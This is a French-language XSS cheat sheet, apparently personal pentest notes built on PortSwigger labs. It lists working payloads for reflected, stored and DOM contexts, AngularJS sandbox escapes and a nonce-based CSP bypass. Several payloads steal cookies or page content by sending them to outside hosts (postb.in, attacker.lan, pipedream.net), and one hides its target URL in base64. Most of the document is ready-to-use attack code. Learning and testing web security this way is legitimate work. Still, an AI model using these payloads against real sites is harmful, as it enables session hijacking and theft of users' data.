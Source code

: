 # XSS

## Ressources 

* [SecList](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing)

* [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```html
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

## types

### Reflected & Stored

#### via les inputs

```html
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

exécutera : 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

#### Via les cookies

```html
Cookie: status="><script>alert(1)</script><p class="
Cookie: status="><img src=1 onerror='document.location="https://www.postb.in/1753696876187-8844002014957?cmd="+document.cookie'/><p class="
```

### DOM

```html
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

#### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

#### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor("alert(1)")()}}
```

vol de cookie : 

```js
{{constructor.constructor(&#x27;document.location="https://www.postb.in/1753692960736-3552180754486?cmd=".concat(document.cookie)&#x27;)()}}
http://exemple.com/index.php?param=%7B%7Bconstructor.constructor%28%26%23x27%3Bdocument.location%3D%22https%3A%2F%2Fwww.postb.in%2F1753692960736-3552180754486%3Fcmd%3D%22.concat%28document.cookie%29%26%23x27%3B%29%28%29%7D%7D
```

#### Eval - sans parenthèses

```js
7+7,document.location="https://www.postb.in/1753696876187-8844002014957?cmd="+document.cookie
```

#### in xhr

```js
\"-alert(1)}//
```

### POC depuis un iframe

```html
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```html
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


## Nonce


* Le `Nonce` (number used once) sont générer par le serveur est utilisé une seule fois.

1. Le serveur génère un nonce aléatoire

2. Il inclut ce nonce dans le header HTTP `Content-Security-Policy`

3. Dans la page HTML, tous les scripts inline ou externes autorisés ont cet attribut : `<script nonce="cbf6db1d77f646653fe0e66d34d84570">...</script>`

4. Seuls les scripts ayant la valeur `Nonce` de la CSP sont exécutés.


------------

## Retours d'expérience

* Prendre le temps le lire le `CSP`

### Success

* Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit jusqu'a avoir des réponses 200 avec chars non encodés
* regarder dans le débugger du navigateur: "inspect element" et onglet "source" pour contrôler l'échappent.

* Vol de cookie (DOM based) : 

```js
test';document.location="https://attacker.lan?c="+document.cookie;'
```

```html
<script>
fetch('https://attacker.machine', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

* Vol du contenu la page web :

```html
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```

```html
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```


* marche aussi dans un fichier **.svg**

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```

fun pour les DOM :

```html
<marquee onstart=alert(1)>XSS</marquee>
```

Exemple de Contournement avec Nonce et Inline : 

```html
<script nonce="...">
  window["location"] = atob("aHR0cHM6Ly9hdHRhY2subGFuP2M9") + window["docu"+"ment"]["cookie"]
</script>
```


### Fails

* Le texte issu d'un `InnerHTML` ou d'autre fonction JS similaire n'est pas (toujours) interprété par le Navigateur. 

* Lorsque le XSS `inline` est refusé par la `CSP` on peut tenter un `Iframe` ou `javascript:`
